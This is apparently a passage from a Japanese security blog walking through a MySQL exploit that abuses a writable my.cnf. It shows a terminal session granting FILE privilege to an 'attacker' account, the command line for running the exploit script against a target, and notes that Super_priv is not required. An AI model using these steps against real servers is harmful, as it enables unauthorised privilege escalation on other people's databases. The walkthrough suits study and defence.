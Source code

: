 ```
kosuke@scapegoat ~ $ mysql -uroot -pmysql
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 44
Server version: 5.5.50-0+deb8u1 (Debian)

Copyright (c) 2000, 2016, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> CREATE DATABASE pocdb;
Query OK, 1 row affected (0.00 sec)

mysql> GRANT FILE ON *.* TO 'attacker'@'%' IDENTIFIED BY 'p0cpass!';
Query OK, 0 rows affected (0.00 sec)

mysql> GRANT SELECT, INSERT, CREATE ON `pocdb`.* TO 'attacker'@'%';
Query OK, 0 rows affected (0.00 sec)

mysql> select User,File_priv,Super_priv,Trigger_priv from mysql.user where user='attacker';
+----------+-----------+------------+--------------+
| User     | File_priv | Super_priv | Trigger_priv |
+----------+-----------+------------+--------------+
| attacker | Y         | N          | N            |
+----------+-----------+------------+--------------+
1 row in set (0.00 sec)

mysql> exit
Bye
```

 * 実行

```
python ./access_logging_function.py -dbuser attacker -dbpass 'p0cpass!' -dbhost scapegoat.test -dbname pocdb -mycnf /var/lib/mysql/my.cnf
```

![access_logging_function]({{site.baseurl}}/images/2016/09/14/access_logging_function.gif)

ネットの情報では本攻撃にはSuper_privが必要という記述をちらほらみますがご覧の通り、特筆すべき点としてこの攻撃にSuper_privは必要ありません。またTrigger_privも必要ありません。 また、この攻撃にはすでにmysqlで書き込み可能なmy.cnfが必要という記述も見かけますが、その性質は本質的な箇所ではないと思います。 Exploitでmysql権限で書き込めるmy.cnfを必要としているのはうまくセクションをこの手法では書けないからだと推測しますが、Dawid Golunskiさんは前述の通り、公表はしていないがうまくセクションヘッダを書く手法を知っていると記述しています。

## Proof of Concept

脆弱なMySQLサーバを持つホストと攻撃者が使用するホストを用意する
